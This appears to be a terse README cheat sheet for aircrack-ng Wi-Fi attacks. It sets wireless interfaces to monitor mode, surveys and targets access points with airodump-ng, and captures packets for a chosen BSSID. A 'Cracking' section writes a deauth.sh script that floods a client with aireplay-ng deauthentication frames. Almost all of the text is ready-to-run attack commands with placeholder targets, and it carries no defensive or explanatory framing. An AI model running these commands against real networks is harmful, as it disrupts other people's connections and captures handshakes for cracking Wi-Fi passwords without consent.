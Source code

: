 ## General

### AP `a`
```bash
1 apdo
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
12 power rate
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Observability - Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

### Observability - Channel
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg --bssid CHANGEME wlan1
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format pcap --write CHANGEME \
            --channel CHANGEME --bssid CHANGEME wlan1
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel "${1}"

aireplay-ng -0 99 -D -a "${2}" -c "${3}" wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
